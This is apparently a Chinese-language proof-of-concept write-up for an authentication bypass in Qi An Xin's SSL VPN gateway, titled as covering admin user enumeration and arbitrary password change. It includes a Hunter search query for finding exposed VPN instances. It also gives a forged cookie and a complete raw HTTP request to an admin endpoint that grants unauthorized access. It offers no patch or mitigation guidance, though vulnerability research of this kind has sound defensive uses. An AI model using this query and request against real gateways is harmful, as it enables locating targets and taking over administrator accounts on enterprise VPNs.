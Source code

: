 # 奇安信VPN存在未授权管理用户遍历及任意账号密码修改漏洞

# 一、漏洞简介
<font style="color:rgb(23, 46, 77);">奇安信安全接入网关系统（SSL VPN）在满足客户的身份安全、传输加密、访问授权等多种安全需求基础上，针对 BYOD 及 CYOD 等移动办公场景，提供统一的安全办公接入入口、门户式单点登录、应用 APP安全加固、移动应用数据安全，从而为客户提供“一站式”安全移动办公解决方案。奇安信VPN存在未授权管理用户遍历及任意账号密码修改漏洞。</font>

# 二、影响版本
+ 奇安信VPN

# 三、资产测绘
+ hunter`app.name="奇安信 VPN"`
+ 特征

![1698460379128-d226d33b-a8e8-4d70-b6e8-c17676d964c7.png](./img/IlJ3sRJ1ekzuj2bY/1698460379128-d226d33b-a8e8-4d70-b6e8-c17676d964c7-328271.png)

# 四、漏洞复现
用户遍历

修改`cookie：admin_id=1; gw_admin_ticket=1;`访问出现如下页面表示存在漏洞

```plain
GET /admin/group/x_group.php?id=1 HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: admin_id=1; gw_admin_ticket=1;
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

![1698460517620-2321d0c0-3c69-4610-89df-b5c0a420d5f4.png](./img/IlJ3sRJ1ekzuj2bY/1698460517620-2321d0c0-3c69-4610-89df-b5c0a420d5f4-766217.png)



> 更新: 2024-02-29 23:57:16  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/liitlbcoprgaf65r>
